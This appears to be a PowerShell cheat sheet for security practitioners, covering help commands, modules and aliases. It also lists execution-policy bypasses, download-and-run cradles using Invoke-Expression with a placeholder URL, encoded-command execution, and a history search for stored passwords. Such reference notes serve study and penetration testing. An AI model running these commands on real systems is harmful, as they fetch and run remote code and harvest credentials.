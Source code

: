 # Help System
`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

# Basic Constructs

Cmdlets
Function

# Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

# Execution Policy

* Not a security feature
* Used to avoid accidental script execution
* Can be bypass with:
  * `powershell -executionpolicy bypass .\example.ps1`
  * `powershell -c <cmd>`
  * `powershell -enc`

# Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

# Remote Script execution

* `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `powershell -EncodedCommand <Base64EncodedCommand>`

* Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

# Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

# Execution Policy

> https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6

# Collection of Scripts

- https://sid-500.com/downloads/
- Resource: Infosec PowerShell tools, resources, and authors: https://www.peerlyst.com/posts/resource-infosec-powershell-tools-resources-and-authors?utm_source=twitter&utm_medium=social&utm_content=peerlyst_post&utm_campaign=peerlyst_shared_post
- Mayhem scripts: https://gist.github.com/M3T4L5T3F

# Resources

- PowerShell Basics for Security Professionals Part 1: https://www.youtube.com/watch?v=B0EsL1j_-qw
